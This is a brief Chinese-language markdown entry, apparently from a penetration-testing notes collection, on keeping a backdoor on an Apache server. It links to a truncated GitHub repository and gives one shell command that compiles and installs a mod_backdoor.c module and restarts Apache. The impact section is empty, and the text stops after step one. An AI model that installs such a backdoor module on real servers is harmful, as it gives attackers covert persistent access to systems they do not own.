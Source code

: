 # Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```shell
apxs -i -a -c mod_backdoor.c && service apache2 restart
```

